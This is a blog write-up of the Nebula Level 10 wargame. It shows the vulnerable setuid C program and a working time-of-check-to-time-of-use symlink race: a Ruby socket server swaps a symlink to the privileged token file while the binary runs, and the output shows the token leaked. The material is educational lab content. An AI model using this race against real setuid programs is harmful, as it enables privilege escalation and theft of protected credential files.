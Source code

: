 ```yaml
---
layout: post
title: "Exploit Exercises - Nebula Level 10"
date: 2014-01-25 12:40:53 +0800
comments: true
categories: 
- Security
- Exercises
- Nebula
---
```


### About

The setuid binary at */home/flag10/flag10* binary will upload any file given, as long as it meets the requirements of the *access()* system call.

To do this level, log in as the *level10* account with the password *level10*. Files for this level can be found in /home/flag10.

### Source Code

``` c
#include <stdlib.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <string.h>

int main(int argc, char **argv)
{
  char *file;
  char *host;

  if(argc < 3) {
    printf("%s file host\n\tsends file to host if you have access to it\n", argv[0]);
    exit(1);
  }

  file = argv[1];
  host = argv[2];

  if(access(argv[1], R_OK) == 0) {
    int fd;
    int ffd;
    int rc;
    struct sockaddr_in sin;
    char buffer[4096];
  	
    printf("Connecting to %s:18211 .. ", host); fflush(stdout);
  	
    fd = socket(AF_INET, SOCK_STREAM, 0);
  	
    memset(&sin, 0, sizeof(struct sockaddr_in));
    sin.sin_family = AF_INET;
    sin.sin_addr.s_addr = inet_addr(host);
    sin.sin_port = htons(18211);
  	
    if(connect(fd, (void *)&sin, sizeof(struct sockaddr_in)) == -1) {
      printf("Unable to connect to host %s\n", host);
      exit(EXIT_FAILURE);
    }
  	
#define HITHERE ".oO Oo.\n"
    if(write(fd, HITHERE, strlen(HITHERE)) == -1) {
      printf("Unable to write banner to host %s\n", host);
      exit(EXIT_FAILURE);
    }
#undef HITHERE
  
    printf("Connected!\nSending file .. "); fflush(stdout);
  	
    ffd = open(file, O_RDONLY);
    if(ffd == -1) {
      printf("Damn. Unable to open file\n");
      exit(EXIT_FAILURE);
    }
  	
    rc = read(ffd, buffer, sizeof(buffer));
    if(rc == -1) {
      printf("Unable to read from file: %s\n", strerror(errno));
      exit(EXIT_FAILURE);
    }
  	
    write(fd, buffer, rc);
  	
    printf("wrote file!\n");
  } else {
    printf("You don't have access to %s\n", file);
  }
}
```

<!-- more -->

There at two files in the directory /home/flag10, *flag10* and *token*. The source code of executable *flag10* in shown above, and *token* contains the password of user *flag10*. The goal is to read the content of *token*.

The attack comes from a common bug called [Time of check to time of use](http://en.wikipedia.org/wiki/Time-of-check-to-time-of-use), the Wiki page above explains precisely about what this bug is and how it can be exploited. So in my imagination this is how this attack would look like: 

1. pass */home/level10/token* whick links to a real user(*level10*) readable file */home/level10/test* to the program as `argv[1]`
2. */home/flag10/flag10* checks whether this file is accessable at line 24(with the result true)
3. modify the file to link to */home/flag10/token* when */home/flag10/flag10* is executing code between line 24 and line 54
4. when */home/flag10/flag10* reads the file at line 54, it reads */home/flag10/token*

The most important step mentioned above is step 3, it is hard to control the time! Fortunately, the *flag10* program will send a banner before actually read the file(line 46), this leaves me some time to make some change!

Notice that the content of the file would be transmit through a socket connection, so I need to write my own server code. In my consideration, I need to change the file */home/level10/token* immediately after the server accepts a connection from the client, I wrote this server code in Ruby:

``` ruby
require 'socket'

server = TCPServer.new(18211)
loop {
    client = server.accept
    `rm /home/level10/token; ln -s /home/flag10/token /home/level10/token`
    while msg = client.gets
        puts "RECV: #{msg}"
    end
}
```

After the server was started, I triggered the vulnerability with the following command

	$ /home/flag10/flag10 ~/token 127.0.0.1

Note that the symbolic file *~/token* must exist and point to a file that is readable by user *level10* before the program *flag10* is executed. 

The output of the Ruby code was not always as expected, sometimes the client read the file before the server changed it, but as long as it could be right, it hacked!

``` bash
level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: hello world

level10@nebula:~$ ruby serv.rb 
RECV: .oO Oo.
RECV: 615a2ce1-b2b5-4c76-8eed-8aa5c4015c27
```
